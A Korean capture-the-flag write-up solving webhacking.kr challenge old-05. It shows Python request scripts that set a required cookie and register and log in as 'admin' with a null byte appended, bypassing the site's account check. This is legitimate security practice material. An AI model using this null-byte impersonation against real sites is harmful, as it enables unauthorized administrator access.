 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**

![](images/2022-01-03-16-30-49.png)


# **Write-Up**

Join 버튼을 클릭하면 Access Denied alert가 뜬다.

![](images/2022-01-03-16-31-09.png)

script를 확인하면 Join버튼 클릭 시 무조건 Access Denited라고 나오고 Login버튼 클릭 시 mem/login.php로 이동된다.

![](images/2022-01-03-16-31-13.png)

guessing으로 mem/join.php로 시도해봐도 되지만 Directory Listing이 먹혀 join.php라는 것을 확인할 수 있다.

![](images/2022-01-03-16-31-17.png)

join.php로 접속하면 bye alert창이 뜬다.

![](images/2022-01-03-16-31-21.png)

join.php에 난독화된 script가 존재한다.

![](images/2022-01-03-16-31-24.png)

개발자 도구의 Pretty-print를 이용하여 보기 편하게 바꾸자.

![](images/2022-01-03-16-31-29.png)

bye alert의 조건과 access_denied의 조건도 있는 것을 확인할 수 있다.

![](images/2022-01-03-16-31-33.png)

변수를 Console창에 입력하면 완성된 문자열 값을 얻을 수 있다.

![](images/2022-01-03-16-31-37.png)

조건들은 cookie 값 중 oldzombie라는 Name이 있어야하고, URL에는 mode=1이라는 문자열이 들어가면 회원가입을 할 수 있게 된다.

```pythoni
import urllib.request

url     = 'https://webhacking.kr/challenge/web-05/mem/join.php?mode=1'
id      = b'123'
data    = b'id='+id+b'&pw=123'
request = urllib.request.Request(url, data=data)
request.add_header('Cookie','oldzombie=hello')
response= urllib.request.urlopen(request)
print(response.read())

[Output]
b"<html>\n<title>Challenge 5</title></head><body bgcolor=black><center>\n<font size=2 color=white><script>alert('id already existed');</script>"
```

널바이트를 이용하여 회원가입 후 로그인을 하면 점수를 획득할 수 있다.

```python
import urllib.request


url     = 'https://webhacking.kr/challenge/web-05/mem/join.php?mode=1'
id      = b'admin \x00'
data    = b'id='+id+b'&pw=123'
request = urllib.request.Request(url, data=data)
request.add_header('Cookie','oldzombie=hello')
response= urllib.request.urlopen(request)

print(response.read())

url     = 'https://webhacking.kr/challenge/web-05/mem/login.php'
id      = b'admin \x00'
data    = b'id='+id+b'&pw=123'
request = urllib.request.Request(url, data=data)
request.add_header('Cookie','oldzombie=hello;PHPSESSID=90tgnpg4ojd0sr911ktp9d6o10')
response= urllib.request.urlopen(request)

print(response.read())

[Output]
b'<html>\n<title>Challenge 5</title></head><body bgcolor=black><center>\n<font size=2 color=white>sign up as admin \\0 success'
b"<html>\n<head>\n<title>Challenge 5</title>\n</head>\n<body bgcolor=black>\n<center><font color=white>\nHello admin<br><script>alert('old-05 Pwned!');</script><hr>old-05 Pwned. You got 30point. Congratz!<hr></font>\n<font ... 생략 ...
```
